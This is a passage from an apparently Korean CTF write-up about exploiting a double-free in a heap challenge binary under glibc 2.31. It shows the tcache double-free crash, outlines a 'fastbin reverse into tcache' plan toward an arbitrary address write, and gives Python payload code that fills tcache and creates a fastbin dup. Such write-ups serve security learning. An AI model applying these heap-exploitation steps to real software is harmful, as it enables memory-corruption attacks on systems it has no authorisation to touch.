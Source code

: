 이후 `size_4160[index]`는 0으로 초기화하지만 `ptr_4060[index]`는 초기화하지 않으므로 double free가 가능하다.

## 0x02. Exploit
### Fastbin reverse into tcache
예전 버전의 glibc(<=2.26)에서는 가능했지만, 현재 docker 환경의 버전인 2.31에서는 tcache에는 double free를 방지하기 위한 mitigation이 적용되었다.
``` bash
1. Buy a pet
2. Edit name
3. Refund
> 3
Index: 0
DONE
1. Buy a pet
2. Edit name
3. Refund
> 3
Index: 1
DONE
1. Buy a pet
2. Edit name
3. Refund
> 3
Index: 0
free(): double free detected in tcache 2
[1]    97427 IOT instruction (core dumped)  ./chall
```
따라서 이를 우회하기 위해 fastbin reverse into tcache 기법을 사용했는데, 다음 자료들을 참고했다.

- [Heap exploit - Fastbin Reverse into Tcache](https://velog.io/@chk_pass/Heap-exploit-Fastbin-Reverse-into-Tcache)
- [how2heap - fastbin_reverse_into_tcache.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_reverse_into_tcache.c)

위 자료들에서는 victim chunk를 해제하고 값을 쓸 수 있는 상황을 가정했지만 이 문제에서는 `size_4160[index]`가 `0`이면 `edit`이 불가능하므로 fastbin dup 상황을 추가로 만들어줘야 한다.

따라서 exploit 시나리오는 다음과 같다.

1. Fastbin 범위의 chunk를 `7`개 해제하여 tcache를 꽉 채움
2. Double free를 이용하여 fastbin dup 생성
3. Chunk `7`개를 할당하여 tcache를 비움
4. `8`번째 chunk를 할당받아 `next_chunk` 조작
5. 조작한 `next_chunk` 주소가 할당될 때까지 chunk 할당 요청
6. 할당받은 주소를 이용해 AAW

한 단계씩 payload를 작성해보면,
``` python
    # fill tcache 0x20
    for _ in range(9):
        buy(s, 0x10)
    for i in range(7):
        refund(s, i + 1)

    # fastbin dup 8 -> 9 -> 8
    refund(s, 8)
    refund(s, 9)
    refund(s, 8)
```
이렇게 `refund`를 `7`번 실행해서 tcache를 꽉 채우면 이후 chunk들을 fastbin으로 보내진다.
